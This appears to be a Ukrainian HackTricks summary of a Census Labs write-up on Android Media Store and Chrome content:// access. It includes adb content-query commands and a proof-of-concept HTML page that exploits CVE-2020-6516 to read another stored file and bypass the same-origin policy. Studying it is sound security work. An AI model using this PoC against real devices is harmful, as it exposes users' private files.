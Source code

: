 {{#include ../../banners/hacktricks-training.md}}

**Це резюме поста [https://census-labs.com/news/2021/04/14/whatsapp-mitd-remote-exploitation-CVE-2021-24027/](https://census-labs.com/news/2021/04/14/whatsapp-mitd-remote-exploitation-CVE-2021-24027/)**

### Перелік файлів у Media Store

Щоб перерахувати файли, які керуються Media Store, можна використовувати команду нижче:
```bash
$ content query --uri content://media/external/file
```
Для більш зручного для людини виводу, відображаючи лише ідентифікатор та шлях кожного проіндексованого файлу:
```bash
$ content query --uri content://media/external/file --projection _id,_data
```
Контент-провайдери ізольовані у власному приватному просторі імен. Доступ до провайдера вимагає специфічного `content://` URI. Інформацію про шляхи доступу до провайдера можна отримати з маніфестів додатків або з вихідного коду фреймворку Android.

### Доступ Chrome до контент-провайдерів

Chrome на Android може отримувати доступ до контент-провайдерів через схему `content://`, що дозволяє йому отримувати доступ до ресурсів, таких як фотографії або документи, експортовані сторонніми додатками. Щоб проілюструвати це, файл можна вставити в Media Store, а потім отримати до нього доступ через Chrome:

Вставте власний запис у Media Store:
```bash
cd /sdcard
echo "Hello, world!" > test.txt
content insert --uri content://media/external/file \
--bind _data:s:/storage/emulated/0/test.txt \
--bind mime_type:s:text/plain
```
Визначте ідентифікатор нововставленого файлу:
```bash
content query --uri content://media/external/file \
--projection _id,_data | grep test.txt
# Output: Row: 283 _id=747, _data=/storage/emulated/0/test.txt
```
Файл можна переглянути в Chrome, використовуючи URL, побудований з ідентифікатора файлу.

Наприклад, щоб перерахувати файли, пов'язані з конкретним додатком:
```bash
content query --uri content://media/external/file --projection _id,_data | grep -i <app_name>
```
### Chrome CVE-2020-6516: Обхід політики однакового походження

Політика _Одинкових Походжень_ (SOP) є протоколом безпеки в браузерах, який обмежує веб-сторінки у взаємодії з ресурсами з різних походжень, якщо це не дозволено явно політикою Cross-Origin-Resource-Sharing (CORS). Ця політика має на меті запобігти витоку інформації та підробці міжсайтових запитів. Chrome вважає `content://` локальною схемою, що передбачає більш суворі правила SOP, де кожен URL локальної схеми розглядається як окреме походження.

Однак CVE-2020-6516 була вразливістю в Chrome, яка дозволяла обійти правила SOP для ресурсів, завантажених через URL `content://`. Фактично, JavaScript код з URL `content://` міг отримувати доступ до інших ресурсів, завантажених через URL `content://`, що становило значну загрозу безпеці, особливо на пристроях Android, що працюють на версіях раніше Android 10, де не було реалізовано обмежене зберігання.

Нижче наведено доказ концепції, який демонструє цю вразливість, де HTML документ, після завантаження під **/sdcard** та додавання до Media Store, використовує `XMLHttpRequest` у своєму JavaScript для доступу та відображення вмісту іншого файлу в Media Store, обходячи правила SOP.

Proof-of-Concept HTML:
```xml
<html>
<head>
<title>PoC</title>
<script type="text/javascript">
function poc()
{
var xhr = new XMLHttpRequest();

xhr.onreadystatechange = function()
{
if(this.readyState == 4)
{
if(this.status == 200 || this.status == 0)
{
alert(xhr.response);
}
}
}

xhr.open("GET", "content://media/external/file/747");
xhr.send();
}
</script>
</head>
<body onload="poc()"></body>
</html>
```
{{#include ../../banners/hacktricks-training.md}}
